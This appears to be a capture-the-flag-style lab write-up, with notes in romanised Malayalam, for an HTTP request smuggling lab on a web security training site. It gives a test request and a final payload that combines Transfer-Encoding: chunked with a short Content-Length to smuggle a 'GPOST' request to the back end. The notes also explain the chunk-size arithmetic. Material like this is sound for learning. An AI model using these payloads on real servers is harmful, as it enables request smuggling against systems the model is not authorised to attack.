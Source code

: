 ```http
POST / HTTP/1.1
Host: 0a7700db04db1af9c07f20fa00df00d4.web-security-academy.net
connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

5
abcde
0


```

-->ivide GET maati POST aaki. ith just test chyan vendi itta request aan.final payload vere varum
-->ivide transfer-encoding:chunked koduthu.karanam front end server content-lenth support chyila.so 0 yum athin sesham ulla 2 empty line um kodukuka
-->ivide content-lenth: 3  enn iitu.apol ee 5 enn ezhuthiyathin sesham `\r\n`  varum.so 3 bytes aayi.ini athin sehsam ullath backend parse chyila.karnam backend transfer-encoding header support chyila
-->so ee request send chythal front end server full request send chyum.enit ath backend il ethumbol , backend content-lenth: 3 ennath mathrame parse chyu.so 5 ennath mathram parse chyum.baaki ullath adutha request aayi kanaum
-->so ini onnukoode send chythal ee abcde ennath response il append chythathayi kanam
-->ini final payload nokam :

```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


-->0 kk shesham rand empty line iduka ok
-->ivide content-lenth: 4 enn itt so server ee 5c ennath mathram parse chyum.so baki ullathoke adutha request aayi kanum
-->front end server chunked aan parse chyuka so 0 varunath vere ullathellam eduth backend ilek ayakum
-->5c ennal 92 bytes ine hex encode chythathan.lab-1 il 0 enn koduthath pole aan ivide 5c. athayath 9 enn number in sehsam pine ellam hex aayitan kodukuka.athan oru reethi
-->ivide sumggled request il content-lenth: 15 enn kanam.sherikum 10 bytes mathrame ullu ie,`x=1\r\n0\...` .pakshe content lenth namuk kooduthal koduthalum kozhapam ila.korav kodukathirunamathi.vengil 15 pakaram 25 kodukam.9 onum patila
-->athupole ivide x=1 ennath veruthe koduthathan vere enthengilum 3 bytes verunath koduthalum mathi ie,abc
-->eni send adikuka.apol response ok varum.onude send adikumbol "Unrecognized method GPOST"  enn kanam.apol lab solve aayi
